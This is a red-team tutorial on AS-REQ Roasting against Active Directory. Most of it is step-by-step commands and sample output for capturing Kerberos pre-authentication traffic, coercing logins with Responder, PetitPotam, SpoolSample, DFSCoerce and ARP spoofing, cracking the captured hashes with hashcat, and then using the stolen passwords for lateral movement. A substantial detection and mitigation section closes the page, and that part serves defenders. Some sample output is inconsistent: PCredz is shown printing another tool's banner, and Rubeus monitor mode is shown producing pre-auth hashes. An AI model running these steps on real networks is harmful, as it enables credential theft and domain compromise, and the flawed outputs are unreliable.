

## What Is AS-REQ Roasting?

AS-REQ Roasting is a passive credential-harvesting attack — and the thing that catches people off-guard is that it targets accounts with pre-authentication **enabled**, not disabled. That distinction flips everything you assume from reading about [AS-REP Roasting](/docs/kerberos/asreproast/).

Here is the chain of events: when a domain user logs in, their Kerberos client builds an AS-REQ packet (Authentication Service Request — the first message a client sends to the KDC to request a TGT). Inside that packet is a PA-DATA field (Pre-Authentication Data — a proof-of-identity payload the client includes so the KDC can verify the user knows their password before handing out any ticket). That PA-DATA contains a timestamp encrypted with the user's [NTLM hash](/docs/redteam/credential-dumping/) using RC4-HMAC (etype 23). The KDC decrypts it, checks that the timestamp is current, and only then issues a TGT.

An attacker who can observe port 88 traffic captures that AS-REQ. The encrypted timestamp blob inside it is pulled out and handed to a cracking tool. If the attacker guesses the correct password, the timestamp decrypts cleanly — same proof-of-knowledge check the KDC performs, just inverted. No interaction with the domain beyond passive observation. No lockout risk. No requests the attacker initiates. Entirely offline cracking.

**How it compares to AS-REP Roasting:**

| | AS-REP Roasting | AS-REQ Roasting |
|---|---|---|
| Pre-auth state | **Disabled** on target account | **Enabled** on target account |
| Who generates the crackable blob | KDC (in its AS-REP response) | Victim's own Kerberos client (in its AS-REQ) |
| Attacker's role | Active requester — sends the AS-REQ themselves | Passive observer — sniffs the victim's AS-REQ |
| Domain credentials required | No | No |
| Hash format | `$krb5asrep$23$` | `$krb5pa$23$` |
| Hashcat mode | 18200 | 7500 |

The most important implication: no account is safe from this just because it has pre-authentication enabled. Pre-auth protects accounts from AS-REP Roasting, but it is precisely the pre-auth timestamp — the protection mechanism itself — that becomes the crackable material.

---

## How Does AS-REQ Roasting Work?

At the packet level, a standard Kerberos AS-REQ with pre-authentication looks like this:

1. The user's Kerberos client takes the current UTC timestamp and encrypts it using the user's NTLM-derived RC4 key (NTLM — NT LAN Manager — is the Windows password hashing algorithm; the NT hash is a fixed-length fingerprint of the password that Kerberos uses as the raw key material for RC4 encryption)
2. That encrypted blob is placed in the `PA-ENC-TIMESTAMP` field (PA-DATA type 2) inside the AS-REQ
3. The AS-REQ is sent to the KDC on port 88 (UDP primary, TCP fallback for large packets)
4. The KDC decrypts the timestamp with its copy of the user's key, checks it falls within the 5-minute clock skew window, and issues the TGT if valid

An attacker capturing that AS-REQ has everything they need: the `PA-ENC-TIMESTAMP` blob is the same structure hashcat mode 7500 is built to attack.



The victim's login completes successfully — from the user's perspective nothing happened. From the DC's perspective, a normal 4768 event fires. Neither sees the attacker.

---

## What Does AS-REQ Roasting Require?

- **Network position to observe port 88 traffic.** This is the core requirement. You need to be somewhere traffic between clients and the DC passes through — or passes by. That means a MITM (Man-in-the-Middle) position via ARP poisoning, a rogue network device, access to a network tap, or a monitoring SPAN port on a managed switch.

- **Users actually authenticating.** AS-REQ packets are only generated at login time (or when a ticket expires and the client silently renews). In a busy office environment, AS-REQs appear constantly. In a quiet network or out-of-hours window, you may need to coerce authentication events actively — "coercion" means tricking or forcing a machine into making an outbound Kerberos connection so you can capture its AS-REQ (see [Triggering Authentication](#triggering-authentication)).

- **No domain credentials required.** You are not making requests to the DC. You are watching requests other people make.

- **Cracking hardware.** The crack happens entirely on your own machine. A single RTX 2080Ti does roughly 646 MH/s against mode 7500 — fast by Kerberos standards, but about 135x slower than raw NTLM cracking. Weak passwords crack quickly; complex passwords may not crack at all.

---

## Capturing AS-REQ Traffic

Capture live on the wire, or work from a pcap collected earlier. The filter for Kerberos traffic is port 88 (both UDP and TCP — Kerberos uses UDP by default but falls back to TCP when packets exceed the UDP size limit, typically for large PAC (Privilege Attribute Certificate — a Kerberos extension Microsoft added to tickets that carries group membership, privilege data, and user SID information) payloads).


  
**Step 1 — Capture traffic with tcpdump**

`tcpdump` writes raw network traffic to a pcap file. The `\` at the end of each line is bash's line continuation character — the entire block is one command split across lines for readability.

```bash
sudo tcpdump \
  -i eth0 \
  -w kerberos-capture.pcap \
  'udp port 88 or tcp port 88'
```

The flags:
- `-i eth0` — the network interface to listen on. Replace with your interface name (`ip a` lists them — look for the one with your IP address).
- `-w kerberos-capture.pcap` — write raw packets to file instead of printing to terminal. Required for later processing with PCredz or tshark.
- `'udp port 88 or tcp port 88'` — capture filter. Restricts capture to Kerberos traffic only, keeping file size manageable. The single quotes prevent the shell from interpreting the `or` as a shell operator.

Let it run while users authenticate. `Ctrl+C` stops the capture.

```
tcpdump: listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes
^C
47 packets captured
47 packets received by filter
0 packets dropped by kernel
```

**Step 2 — Extract AS-REQ hashes with PCredz**

PCredz (Python Credentials) parses pcap files and extracts crackable Kerberos pre-authentication hashes automatically, outputting them directly in `$krb5pa$23$` format ready for hashcat.

```bash
git clone https://github.com/lgandx/PCredz
cd PCredz
python3 Pcredz -f /path/to/kerberos-capture.pcap
```

The flags:
- `-f /path/to/kerberos-capture.pcap` — path to the pcap file to parse. PCredz walks every packet and pulls out any recognizable credential material it finds, including Kerberos PA-ENC-TIMESTAMP blobs, NTLMv2 hashes, and more.

```
CredSLayer Started...
[*] File: kerberos-capture.pcap
[+] Kerberos AS-REQ: $krb5pa$23$jdoe$RADIANT.LOCAL$$a3f2b1c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2
[+] Kerberos AS-REQ: $krb5pa$23$svc_sql$RADIANT.LOCAL$$b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5
```

Save the hash lines to a file for cracking:

```bash
python3 Pcredz -f /path/to/kerberos-capture.pcap 2>/dev/null | grep 'krb5pa' > asreq-hashes.txt
```

`2>/dev/null` — redirects stderr (standard error — the file descriptor used for diagnostic messages and warnings) to `/dev/null` (the system's discard device), suppressing PCredz's status messages so only hash lines remain in the output.

**Alternative: extract with tshark**

tshark (the terminal-mode version of Wireshark) can pull the raw PA-ENC-TIMESTAMP cipher bytes directly from a pcap. This gives you the raw hex — you then need to format it manually into the `$krb5pa$23$` hash format.

```bash
tshark \
  -r kerberos-capture.pcap \
  -Y "kerberos.msg_type == 10 && kerberos.PA_DATA_type == 2" \
  -T fields \
  -e kerberos.CNameString \
  -e kerberos.cipher
```

The flags:
- `-r kerberos-capture.pcap` — read from file rather than live capture
- `-Y "kerberos.msg_type == 10 && kerberos.PA_DATA_type == 2"` — display filter. `msg_type == 10` is the Kerberos message type for AS-REQ. `PA_DATA_type == 2` is `PA-ENC-TIMESTAMP` — the specific pre-auth field containing the encrypted timestamp. This filters out all other packets.
- `-T fields` — output mode: print only the specified field values, tab-separated, rather than full packet dissection
- `-e kerberos.CNameString` — extract the client username from the AS-REQ
- `-e kerberos.cipher` — extract the encrypted timestamp bytes (the crackable material)

```
jdoe    a3f2b1c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2
svc_sql b4c5d6e7f8a9b0c1d2e3f4a5b6c7d8e9f0a1b2c3d4e5f6a7b8c9d0e1f2a3b4c5
```

Use PCredz over tshark when you can — PCredz handles the formatting automatically. The tshark method is useful when PCredz isn't available or when you need to script custom processing of individual fields.
  
  
**Step 1 — Capture traffic with Wireshark**

Open Wireshark, select the network interface facing the target subnet, and apply the capture filter before starting:

```
udp port 88 or tcp port 88
```

Enter this in the **Capture filter** field (the bar at the top of the welcome screen, labeled "Enter a capture filter"). Start the capture and wait for users to authenticate.

To save the capture: **File → Save As → kerberos-capture.pcap**

**Step 2 — Apply display filter to isolate AS-REQ packets**

Once you have packets, apply this display filter (the bar at the top of the packet list, distinct from the capture filter):

```
kerberos.msg_type == 10 and kerberos.PA_DATA_type == 2
```

`kerberos.msg_type == 10` — AS-REQ packets only. `kerberos.PA_DATA_type == 2` — packets containing a `PA-ENC-TIMESTAMP` field. Together, they show exactly the packets that contain crackable material.

**Step 3 — Extract hashes with Rubeus monitor mode**

On a domain-joined Windows machine, Rubeus can monitor for incoming AS-REQ packets in real time and extract hashes as they arrive — no pcap required.

```powershell
.\Rubeus.exe monitor /interval:5 /filteruser:jdoe /nowrap
```

The flags:
- `/interval:5` — poll for new AS-REQ packets every 5 seconds
- `/filteruser:jdoe` — only capture AS-REQ packets for this specific account. Omit to capture all users.
- `/nowrap` — print each hash on a single line. Without this, long hashes wrap across multiple lines and break hashcat's parser.

```
[*] Action: TGT Monitoring
[*] Monitoring every 5 seconds for new TGTs

[*] 3/12/2026 9:14:32 AM UTC - Found new AS-REQ for user: jdoe

  UserName       : jdoe
  Domain         : RADIANT.LOCAL
  KrbEncType     : rc4_hmac (23)

  Hash           : $krb5pa$23$jdoe$RADIANT.LOCAL$$a3f2b1c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2
```

> **Note:** Rubeus monitor mode captures TGT requests from the machine's own Kerberos traffic and requires the tool to be running on a domain-joined host. It is particularly useful when combined with coercion techniques that force specific accounts to authenticate through the machine where Rubeus is running.
  


---

## Triggering Authentication

Passive sniffing only works if someone logs in while you're watching. In practice, you often need to coerce authentication events — force a machine or user account to emit a Kerberos AS-REQ on demand. The techniques below are not specific to one platform; they apply regardless of whether your attack box is Linux or Windows.

**Why Kerberos and not NTLM?** Coercion techniques traditionally capture NTLM hashes, but whether Kerberos or NTLM is used depends on how the victim authenticates. When a coercion forces authentication to an IP address, Windows typically falls back to NTLM. When authentication targets a hostname resolvable via DNS, Windows prefers Kerberos. To reliably get Kerberos AS-REQ packets, either:
- Ensure you're in a position to sniff traffic to the DC itself (real logins), or
- Set up a situation where coercion targets a hostname that resolves via DNS

**LLMNR / NBT-NS Poisoning with Responder**

LLMNR (Link-Local Multicast Name Resolution) and NBT-NS (NetBIOS Name Service) are Windows fallback name resolution protocols. When a machine can't resolve a hostname via DNS, it broadcasts an LLMNR query asking any neighbor to answer. Responder poisons these broadcasts — it answers first, claiming to be the requested host, and the victim connects to the attacker.

```bash
sudo responder -I eth0 -wd
```

The flags:
- `-I eth0` — the interface to listen on
- `-w` — enable the WPAD (Web Proxy Auto-Discovery — a protocol Windows uses to find proxy configuration automatically) rogue server. This triggers browser-based authentication requests, generating additional credential captures.
- `-d` — enable the DHCP poisoning module, injecting rogue WPAD entries via DHCP responses

When the victim connects to the poisoned hostname and authenticates, if the domain is configured to prefer Kerberos, an AS-REQ appears on port 88 and gets captured alongside Responder's own hash captures. If the victim falls back to NTLM instead, Responder captures the NTLMv2 hash directly.

**Printer Bug (SpoolSample / MS-RPRN)**

The MS-RPRN vulnerability (also called the Printer Bug) abuses the Windows Print Spooler (the service managing print jobs) to force a machine to authenticate back to an attacker-controlled host. The target machine's computer account initiates the connection — so you capture the computer account's Kerberos AS-REQ or NTLM hash.

```bash
python3 SpoolSample.py dc01.radiant.local 192.168.56.99
```

The flags:
- `dc01.radiant.local` — the target machine to coerce (any domain machine running the Print Spooler service)
- `192.168.56.99` — the attacker's machine IP, where you have tcpdump or Responder running to capture the inbound authentication

The coerced machine emits an authentication attempt back to `192.168.56.99`. If that machine's name resolves via DNS, the authentication may be Kerberos; if by IP only, it falls back to NTLM.

**PetitPotam (MS-EFSRPC)**

PetitPotam coerces authentication via the MS-EFSRPC (Encrypting File System Remote Protocol — Windows RPC interface for managing encrypted files) interface. Unlike SpoolSample, PetitPotam can coerce authentication from machines that don't run the Print Spooler.

```bash
python3 PetitPotam.py -u jdoe -p 'Password123!' 192.168.56.99 dc01.radiant.local
```

The flags:
- `-u jdoe -p 'Password123!'` — domain credentials for the EFS RPC call. Some configurations allow unauthenticated coercion — omit these flags if targeting an unpatched host.
- `192.168.56.99` — the listener IP (attacker's machine)
- `dc01.radiant.local` — the target to coerce

**DFSCoerce (MS-DFSNM)**

DFSCoerce abuses the MS-DFSNM (Distributed File System Namespace Management — the protocol Windows uses for managing shared namespaces across multiple servers) interface to coerce authentication.

```bash
python3 DFSCoerce.py -u jdoe -p 'Password123!' 192.168.56.99 dc01.radiant.local
```

The flags follow the same pattern as PetitPotam above.

**ARP Poisoning (MITM positioning)**

A more invasive approach: poison the ARP (Address Resolution Protocol — maps IP addresses to hardware MAC addresses on a local network segment) cache of machines between clients and the DC, routing their traffic through your machine. All Kerberos traffic passes through you — you capture every AS-REQ in the subnet without needing to coerce anything.

```bash
sudo arpspoof -i eth0 -t 192.168.56.20 192.168.56.10
```

This tells the machine at `192.168.56.20` (a victim workstation) that `192.168.56.10` (the DC) has your MAC address — so its traffic to the DC flows through you. Run a second instance pointing the DC back at your machine to make it bidirectional. Combined with `sudo sysctl net.ipv4.ip_forward=1` (which enables IP forwarding so traffic actually passes through rather than being dropped), traffic flows normally while you capture everything.

> **Operational note:** ARP poisoning is noisy and disruptive. It can cause authentication failures and connectivity issues if not set up cleanly. It also trips many network detection tools. Prefer passive sniffing from a monitoring port when available.

---

## Cracking the Hash

The hash format for AS-REQ pre-authentication is:

```
$krb5pa$23$username$REALM$salt$encryptedtimestamp
```

Example from the lab:

```
$krb5pa$23$jdoe$RADIANT.LOCAL$$a3f2b1c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2
```

Breaking it down:
- `$krb5pa$` — hash type identifier: Kerberos 5 Pre-Authentication
- `23` — encryption type. `23` is RC4-HMAC (the standard `etype 23` — the original Kerberos encryption type Windows defaults to for backwards compatibility). If you see `17`, it's AES128. `18` is AES256.
- `jdoe` — the username from the AS-REQ
- `RADIANT.LOCAL` — the Kerberos realm (always uppercase)
- The empty field between the two `$$` is the salt — RC4 hashes don't use a salt, so this is blank
- The final segment is the encrypted timestamp bytes

Hashcat mode `7500` handles this format:

```bash
hashcat -m 7500 asreq-hashes.txt /usr/share/wordlists/rockyou.txt
```

``` {linenos=table}
hashcat (v6.2.6) starting...

OpenCL API (OpenCL 3.0 CUDA 12.0.0) - Platform #1 [NVIDIA Corporation]
================================================================
* Device #1: NVIDIA GeForce RTX 2080 Ti, 10752/11264 MB, 68MCU

$krb5pa$23$jdoe$RADIANT.LOCAL$$a3f2b1c4d5e6f7a8b9c0d1e2f3a4b5c6d7e8f9a0b1c2d3e4f5a6b7c8d9e0f1a2:Password123!

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 7500 (Kerberos 5, etype 23, AS-REQ Pre-Auth)
Hash.Target......: $krb5pa$23$jdoe$RADIANT.LOCAL$$a3f2b1c4d5e...
Time.Started.....: Thu Mar 12 09:22:14 2026 (0 secs)
Time.Estimated...: Thu Mar 12 09:22:14 2026 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Speed.#1.........: 646.3 MH/s (4.22ms) @ Accel:64 Loops:64 Threads:512
Recovered........: 1/1 (100.00%) Digests
```

The flags:
- `-m 7500` — hash mode. `7500` is `Kerberos 5, etype 23, AS-REQ Pre-Auth`. Do not confuse this with `18200` (AS-REP Roasting) or `13100` ([Kerberoasting](/docs/kerberos/kerberoast/)) — each Kerberos hash type has a distinct mode.
- `asreq-hashes.txt` — your hash file, one hash per line
- `/usr/share/wordlists/rockyou.txt` — the wordlist

With rules for better coverage against password policies (capital first letter, number suffix patterns, character substitutions):

```bash
hashcat \
  -m 7500 \
  asreq-hashes.txt \
  /usr/share/wordlists/rockyou.txt \
  -r /usr/share/hashcat/rules/best64.rule
```

The `-r /usr/share/hashcat/rules/best64.rule` flag applies 64 common password mutation rules — adding numbers, capitalizing, substituting letters for numbers — to each wordlist entry. The `\` at the end of each line is bash's line continuation character.

To check cracked results after a session completes:

```bash
hashcat -m 7500 asreq-hashes.txt --show
```

`--show` — display all previously cracked hashes from hashcat's potfile (the file at `~/.local/share/hashcat/hashcat.potfile` where hashcat stores successful cracks) without rerunning the attack.

---

## Operational Notes

**Speed relative to other Kerberos attacks.** Mode 7500 hits roughly 646 MH/s on an RTX 2080Ti — fast in absolute terms, but about 135x slower than cracking raw NTLM (mode 1000, ~86 GH/s on the same GPU). For comparison, AS-REP Roasting (mode 18200) runs at similar speeds to mode 7500. Kerberoasting RC4 tickets (mode 13100) runs slightly faster. The practical implication: wordlist attacks against common passwords still succeed quickly; brute-forcing complex passwords is not realistic.

**Clock skew.** Kerberos enforces a 5-minute maximum clock difference between client and DC. If your capture machine's clock is off, the extracted hashes still crack fine — clock skew only affects live Kerberos requests, not offline cracking. But if you're running coercion tools that make live Kerberos requests, sync your clock first:

```bash
sudo ntpdate 192.168.56.10
```

**Multiple hashes from the same user.** If a user logs in multiple times during your capture window, you'll collect multiple AS-REQ hashes. They're all derived from the same password and any one of them cracks to the same result — remove duplicates with `sort -u asreq-hashes.txt > deduped.txt` before submitting to hashcat.

**Computer account AS-REQs.** Machine accounts (like `DC01$`) also send AS-REQ packets at boot and during Kerberos ticket renewal. Their passwords are 120-byte random strings, machine-managed and rotated regularly — cracking them is not feasible. When PCredz extracts hashes, skip any where the username ends with `$`. Focus on human user accounts.

**The fundamental tradeoff with pre-authentication.** You cannot defend against AS-REQ Roasting by disabling pre-authentication — that just enables AS-REP Roasting, which is strictly worse. Pre-authentication is the more secure state. The only defenses are: strong passwords (making the cracking step infeasible), network controls (preventing the attacker from seeing port 88 traffic), and Kerberos Armoring (which encrypts the PA-DATA itself — see Mitigations).

**What to do with a cracked password.** The recovered plaintext is the account's current domain password. Use it like any other credential: request a TGT with `getTGT.py` (Linux) or `.\Rubeus.exe asktgt` (Windows), then proceed to lateral movement or privilege escalation depending on the account's position. If you cracked a high-privilege account, you're done escalating.

```bash
getTGT.py radiant.local/jdoe:'Password123!' -dc-ip 192.168.56.10
export KRB5CCNAME=jdoe.ccache
```

`KRB5CCNAME` — the environment variable that tells Kerberos tools (Impacket, klist, etc.) which credential cache file to use for authentication. Setting it makes subsequent Impacket commands pick up the TGT automatically without re-specifying credentials.

---

## How Do You Detect and Defend Against AS-REQ Roasting?

### What Logs Does AS-REQ Roasting Generate?

- **Event ID 4768** (Kerberos Authentication Service — AS-REQ ticket request) at the DC — fires for every AS-REQ, including the ones you're capturing. This event is completely normal and fires millions of times a day on busy domains. The event includes `Client Address` (source IP), `Account Name`, and `Ticket Encryption Type` (`0x17` for RC4, `0x12` for AES256). A 4768 alone tells you nothing — it's baseline noise.

- **Event ID 4648** (Explicit Credentials Logon) — fires when coercion tools like SpoolSample or PetitPotam force a machine account to authenticate using explicit credentials. This is a detection signal for the coercion step of the attack, not the passive capture step.

- **[Sysmon](/docs/blueteam/lolbins-hunting/) Event ID 3** (Network Connection) — if Responder or coercion tools run on an endpoint monitored by Sysmon (a Windows Sysinternals tool that logs process and network activity to the Windows Event Log), outbound connections to unusual hosts on unusual ports appear here.

- **MDI (Microsoft Defender for Identity) coercion alerts** — MDI has dedicated detections for SpoolSample and PetitPotam coercion patterns. If you trigger authentication coercion against a DC, MDI typically fires.

### What Logs Does AS-REQ Roasting Not Generate?

- **The passive capture itself.** There is no Windows event for "someone sniffed my AS-REQ." Port 88 is open on the network, Kerberos is a plaintext-protocol-layer protocol (encryption is in the payload, not the transport), and passive observation leaves no trace anywhere. No Windows event ID corresponds to "my AS-REQ was captured." This is the defining characteristic of the attack — the victim has no visibility into it.

- **The offline cracking step.** Hash cracking happens entirely on the attacker's machine, completely disconnected from the domain. No network traffic, no DC queries, no authentication events. Even if the domain had perfect logging, nothing visible happens during cracking.

- **Event ID 4768 standing alone.** A 4768 fires for every legitimate login. An attacker sniffing AS-REQs produces no 4768 events at all — those are generated by the victims, not the attacker. Volume analysis won't help: the events come from normal users at normal rates.

- **LLMNR/NBT-NS poisoning (no endpoint logging).** Poisoning broadcasts doesn't generate Windows Event Log entries on the victim machine. Sysmon doesn't cover it. Network-layer detection (NDIS monitoring, IDS rules) is required to catch it.

### How Do You Mitigate AS-REQ Roasting?

- **Strong passwords — this is the primary control.** AS-REQ Roasting captures the hash. If the password behind it is long and complex, the capture is worthless. Service accounts and privileged user accounts should have passwords of 25+ random characters that don't appear in any wordlist. A password like `Lk#9mQvXp2$nRt7wBzYq!` won't crack from rockyou.txt or best64.rule no matter how fast your GPU is. Enforce this with Fine-Grained Password Policies (FGPPs — AD policies that apply different password length and complexity rules to specific users or groups, bypassing the default domain policy minimum) on privileged accounts.

- **Kerberos Armoring (FAST — Flexible Authentication Secure Tunneling).** This is the only mitigation that directly neutralizes the attack. FAST wraps the PA-DATA (including the PA-ENC-TIMESTAMP) inside an additional layer of encryption, using a machine account key established during the session setup phase. An attacker capturing the AS-REQ sees only encrypted-over-encrypted data — the PA-ENC-TIMESTAMP blob is not directly accessible, and cracking it requires breaking both layers.

  Requirements: Windows 8+ / Windows Server 2012+ for both client and KDC. Enable via Group Policy:

  > Computer Configuration → Policies → Administrative Templates → System → Kerberos → **Support compound authentication** → set to **Supported**

  And at the domain level:

  > Computer Configuration → Policies → Administrative Templates → System → KDC → **KDC support for claims, compound authentication and Kerberos armoring** → set to **Supported** or **Required**

  Setting this to **Required** on the KDC means the KDC refuses unarmored AS-REQ packets entirely — clients that don't support FAST fail to authenticate. Enforce **Required** only after verifying all clients are Windows 8+/Server 2012+ and domain-joined. Mixed environments with legacy clients need the **Supported** setting first, then a migration path.

- **Network segmentation — deny passive observation.** If an attacker can't see port 88 traffic, they can't capture AS-REQ packets. Segment client VLANs so traffic to the DC travels through a path the attacker can't tap. 802.1X network access control (a standard that requires machines to authenticate to the network before getting access, preventing rogue devices from plugging into switches) prevents unauthorized devices from joining the network in a position to sniff.

- **Dynamic ARP Inspection (DAI) and DHCP Snooping.** DAI (a switch-level feature that validates ARP packets against a trusted binding table, blocking ARP poisoning) and DHCP Snooping (a switch feature that only allows DHCP responses from known, trusted ports) together prevent ARP-based MITM positioning. These are switch-level controls configured on managed switches — consult your switch documentation. Cisco IOS: `ip arp inspection vlan <id>` and `ip dhcp snooping`.

- **Disable LLMNR and NBT-NS.** Remove the broadcast protocols that Responder exploits for coercion:

  Disable LLMNR via Group Policy:
  > Computer Configuration → Administrative Templates → Network → DNS Client → **Turn off multicast name resolution** → Enabled

  Disable NBT-NS: `HKLM\SYSTEM\CurrentControlSet\Services\NetBT\Parameters\Interfaces\<interface GUID>` → set `NetbiosOptions` to `2` (disabled), or configure via DHCP Option 001 in the Microsoft 043 scope options.

- **SMB Signing and Extended Protection for Authentication (EPA).** These don't prevent AS-REQ Roasting directly, but they block the NTLM relay attacks that are commonly chained with coercion techniques. An attacker who coerces authentication but can't relay it has fewer options. Enable SMB signing domain-wide via Group Policy and require EPA on IIS and Exchange servers.

- **Patch MS-RPRN, MS-EFSRPC, MS-DFSNM vulnerabilities.** The Print Spooler coercion (SpoolSample) is mitigated by disabling the Print Spooler service on machines that don't need printing — especially DCs. PetitPotam and DFSCoerce have partial mitigations via patches and configuration; check the relevant Microsoft Security Advisories for your Windows version.

### Detection Tools

- **Microsoft Defender for Identity (MDI)** — has detections for coercion techniques (SpoolSample, PetitPotam, DFSCoerce) and LLMNR/NBT-NS poisoning. MDI does not have a specific detection for passive AS-REQ sniffing — it can't see what the attacker's machine is doing. Focus MDI alerting on coercion events as the proxy signal for this attack.

- **Microsoft Sentinel / Splunk** — the only realistic path to detecting AS-REQ Roasting via log analysis is correlating 4768 events with subsequent successful uses of a compromised account. If `jdoe` authenticates from a new IP or at an unusual time shortly after a period of Kerberos traffic on the network, that lateral movement event is detectable even if the capture was not. KQL (Kusto Query Language — the query syntax for Microsoft Sentinel and Azure Log Analytics) query for new-source logons:

  ```kql
  SecurityEvent
  | where EventID == 4624
  | where AccountName == "jdoe"
  | summarize Sources = dcount(IpAddress), LogonTimes = make_list(TimeGenerated) by AccountName, IpAddress
  | where Sources > 1
  ```

- **Zeek (formerly Bro)** — a network traffic analysis framework that can log all Kerberos AS-REQ packets with metadata to a `kerberos.log` file. Passive sniffers on core network segments running Zeek can flag: high-frequency AS-REQs from a single source not matching a domain-joined machine, AS-REQs containing unusual or unexpected client addresses, and anomalous timing patterns during off-hours. Zeek `kerberos.log` fields include `id.orig_h` (source IP), `client` (username), `service` (realm), `success`, and `error_msg`.

- **IDS/IPS (Snort / Suricata)** — write rules to flag ARP poisoning and LLMNR poisoning patterns. Snort rule for LLMNR poisoning responses:

  ```
  alert udp any any -> any 5355 (msg:"LLMNR Response - Possible Poisoning"; content:"|00 00 00 01|"; offset:4; depth:4; sid:9000001;)
  ```

  These rules detect the poisoning infrastructure, not the AS-REQ capture itself.

- **Purple team tip** — stand up tcpdump on a monitoring host and confirm you can capture AS-REQ packets from test logins. Then verify: does your SIEM produce any alert? Does MDI fire? Likely the answer is no to both — AS-REQ Roasting is not a log-generating attack for the capture step, and defenders need to accept that the detection surface is limited to network controls and post-exploitation activity. Knowing this honestly is more useful than assuming log-based detection exists when it doesn't.

## References

### Original Research
- [dumpco.re — "AS-REQ Roasting"](https://dumpco.re/blog/asreqroast)

### Tools
- [PCredz](https://github.com/lgandx/PCredz) — network credential extraction from pcap files
- [Impacket](https://github.com/fortra/impacket) — Python network protocol library and scripts
- [Rubeus](https://github.com/GhostPack/Rubeus) — C# Kerberos toolkit
- [Hashcat](https://github.com/hashcat/hashcat) — GPU-accelerated password cracker

### Specifications
- [RFC 4120 — The Kerberos Network Authentication Service (V5)](https://www.rfc-editor.org/rfc/rfc4120)
- [RFC 6113 — A Generalized Framework for Kerberos Pre-Authentication (FAST)](https://www.rfc-editor.org/rfc/rfc6113)
